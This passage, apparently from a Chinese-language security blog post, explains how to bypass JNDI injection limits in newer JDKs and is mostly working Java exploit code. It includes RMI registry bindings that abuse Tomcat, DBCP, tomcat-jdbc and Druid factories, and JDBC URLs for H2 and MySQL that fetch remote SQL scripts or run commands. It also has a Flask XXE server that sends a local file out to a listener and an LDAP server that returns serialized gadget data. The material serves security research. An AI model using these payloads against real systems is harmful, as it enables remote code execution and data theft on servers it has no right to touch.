Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",
        true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);
ref.add(new StringRefAddr("pathname", "http://127.0.0.1:8888/../../webapps/ROOT/test.jsp"));
ref.add(new StringRefAddr("readonly", "false"));	
ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
registry.bind("test", referenceWraper);
```

```jsp
//test.jsp
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <role rolename="&#x3c;%Runtime.getRuntime().exec(&#x22;calcf&#x22;); %&#x3e;"/>
</tomcat-users>
```

#### JDBC attack

在[Make JDBC Attacks Brilliant Again - HITBSecConf2021 - Singapore HITBSecConf2021 – Singapore](https://conference.hitb.org/hitbsecconf2021sin/sessions/make-jdbc-attacks-brilliant-again/)中有针对JDBC连接而造成RCE的原理与利用方式，我们需要寻找对应的驱动来进行JDBC的连接

##### dbcp 驱动

###### 4种Factory类

有四种不同的版本，分别有着不同的Factory类

1. dbcp1_tomcat: `org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory`
2. dbcp2_tomcat: `org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory`
3. commons-dbcp2: `org.apache.commons.dbcp2.BasicDataSourceFactory`
4. commons-dbcp1: `org.apache.commons.dbcp.BasicDataSourceFactory`

上面四种Factory类都可以作为Bean来使用

跟进Factory类，在configureDataSource方法中，判断了init属性的大小，如果大于0，就会调用`getLogWriter`方法



跟进，接着调用了`createDataSource`方法，创建连接



跟进方法，调用了`this.createPoolableConnectionFactory`，最后在`PoolableConnectionFactory#makeObject`方法中调用` this.connectionFactory.createConnection()`进行连接的创建，最后触发了JDBC attack攻击链





###### JDBC attack's H2_RunScript_INIT poc

条件：

1. 能出网
2. 有h2数据库依赖

```java
public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
    Registry registry = LocateRegistry.createRegistry(1099);
    String JDBC_URL = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/poc.sql'";
    ResourceRef ref = new ResourceRef("javax.sql.DataSource", null, "", "",
            true, "org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory", null);
    ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
    ref.add(new StringRefAddr("url", JDBC_URL));
    ref.add(new StringRefAddr("username", "root"));
    ref.add(new StringRefAddr("password", "root"));
    ref.add(new StringRefAddr("initialSize", "1"));
    ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
    registry.bind("test", referenceWraper);
}

//poc.sql
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);}';CALL EXEC ('calc')
```



###### JDBC attack's H2_Groovy poc

条件

1. 存在h2数据库
2. 存在Groovy-sql依赖

```java
public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
    Registry registry = LocateRegistry.createRegistry(1099);
    String groovy = "@groovy.transform.ASTTest(value={" +
            " assert java.lang.Runtime.getRuntime().exec(\"calc\")" +
            "})" +
            "def x";
    String JDBC_URL = "jdbc:h2:mem:dbtest;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '" + groovy + "'";
    ResourceRef ref = new ResourceRef("javax.sql.DataSource", null, "", "",
            true, "org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory", null);
    ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
    ref.add(new StringRefAddr("url", JDBC_URL));
    ref.add(new StringRefAddr("username", "root"));
    ref.add(new StringRefAddr("password", "root"));
    ref.add(new StringRefAddr("initialSize", "1"));
    ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
    registry.bind("test", referenceWraper);
}
```



###### JDBC attack's H2_JavaScript poc

条件

1. h2数据库依赖

```java
public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
    Registry registry = LocateRegistry.createRegistry(1099);
    String javaScript = "//javascript\njava.lang.Runtime.getRuntime().exec(\"calc\")";
    String JDBC_URL = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"+ javaScript +"'";
    ResourceRef ref = new ResourceRef("javax.sql.DataSource", null, "", "",
            true, "org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory", null);
    ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
    ref.add(new StringRefAddr("url", JDBC_URL));
    ref.add(new StringRefAddr("username", "root"));
    ref.add(new StringRefAddr("password", "root"));
    ref.add(new StringRefAddr("initialSize", "1"));
    ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
    registry.bind("test", referenceWraper);
}
```

同样除了h2数据库，仍然还有Mysql/DB2/Sqlite等等可以进行操作

###### Mysql_statementInterceptors poc

```java
public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
    Registry registry = LocateRegistry.createRegistry(1099);
    String JDBC_URL = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections4_calc";
    ResourceRef ref = new ResourceRef("javax.sql.DataSource", null, "", "",
            true, "org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory", null);
    ref.add(new StringRefAddr("driverClassName", "com.mysql.jdbc.Driver"));
    ref.add(new StringRefAddr("url", JDBC_URL));
    ref.add(new StringRefAddr("initialSize", "1"));
    ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
    registry.bind("test", referenceWraper);
}
```



又或者是其他的链子都可以使用

###### Mysql_XXE_fabric poc

```java
public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
    Registry registry = LocateRegistry.createRegistry(1099);
    String JDBC_URL = "jdbc:mysql:fabric://127.0.0.1:5000";
    ResourceRef ref = new ResourceRef("javax.sql.DataSource", null, "", "",
            true, "org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory", null);
    ref.add(new StringRefAddr("driverClassName", "com.mysql.fabric.jdbc.FabricMySQLDriver"));
    ref.add(new StringRefAddr("url", JDBC_URL));
    ref.add(new StringRefAddr("initialSize", "1"));
    ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
    registry.bind("test", referenceWraper);
}

//flask
from flask import Flask

app = Flask(__name__) 

@app.route('/xxe.dtd', methods=['GET', 'POST'])
def xxe_oob():
	return '''<!ENTITY % aaaa SYSTEM "file:///E:/src.txt">
		<!ENTITY % demo "<!ENTITY bbbb SYSTEM
		'http://127.0.0.1:9999?data=%aaaa;'>"> %demo;'''

@app.route('/', methods=['GET', 'POST'])
def dtd():
	return '''<?xml version="1.0" encoding="UTF-8" ?>
		<!DOCTYPE ANY [
		<!ENTITY % xd SYSTEM "http://127.0.0.1:5000/xxe.dtd"> %xd;]>
		<root>&bbbb;</root>'''

if __name__ == '__main__':
	app.run()
```



##### org.apache.tomcat.jdbc.pool.DataSourceFactory

如果dbcp驱动不能使用，可以使用`tomcat-jdbc`包

其他的和上面的dbcp一致

```java
public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
    Registry registry = LocateRegistry.createRegistry(1099);
    String JDBC_URL = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/poc.sql'";
    ResourceRef ref = new ResourceRef("javax.sql.DataSource", null, "", "",
            true, "org.apache.tomcat.jdbc.pool.DataSourceFactory", null);
    ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
    ref.add(new StringRefAddr("url", JDBC_URL));
    ref.add(new StringRefAddr("username", "root"));
    ref.add(new StringRefAddr("password", "root"));
    ref.add(new StringRefAddr("initialSize", "1"));
    ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
    registry.bind("test", referenceWraper);
}

//poc.sql
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);}';CALL EXEC ('calc')
```

##### com.alibaba.druid.pool.DruidDataSourceFactory

同样，在druid中也存在数据库连接操作

只是在判断的位置，需要init为true，才能进行利用

```java
public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
    Registry registry = LocateRegistry.createRegistry(1099);
    String JDBC_URL = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/poc.sql'";
    ResourceRef ref = new ResourceRef("javax.sql.DataSource", null, "", "",
            true, "com.alibaba.druid.pool.DruidDataSourceFactory", null);
    ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
    ref.add(new StringRefAddr("url", JDBC_URL));
    ref.add(new StringRefAddr("username", "root"));
    ref.add(new StringRefAddr("password", "root"));
    ref.add(new StringRefAddr("initialSize", "1"));
    ref.add(new StringRefAddr("init", "true"));
    ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
    registry.bind("test", referenceWraper);
}

//poc.sql
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);}';CALL EXEC ('calc')
```

### 利用LDAP返回序列化数据，触发本地Gadget

#### use 序列化数据+本地链子

```java
import java.net.InetAddress;
import java.net.URL;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;

public class Deserializebypass {

    private static final String LDAP_BASE = "dc=t4rrega,dc=domain";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1/#Deserialize"};
        int port = 7777;
        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new Deserializebypass.OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaSerializedData", Base64.decode("xxx"));
            //这里填入对应的base64编码
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

## Reference

[如何绕过高版本JDK限制进行JNDI注入利用 (qq.com)](https://mp.weixin.qq.com/s/Dq1CPbUDLKH2IN0NA_nBDA)

[JNDI jdk高版本绕过—— Druid - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10656#toc-8)

[探索高版本 JDK 下 JNDI 漏洞的利用方法 - 跳跳糖 (tttang.com)](https://tttang.com/archive/1405/#toc_0x04-deserialize)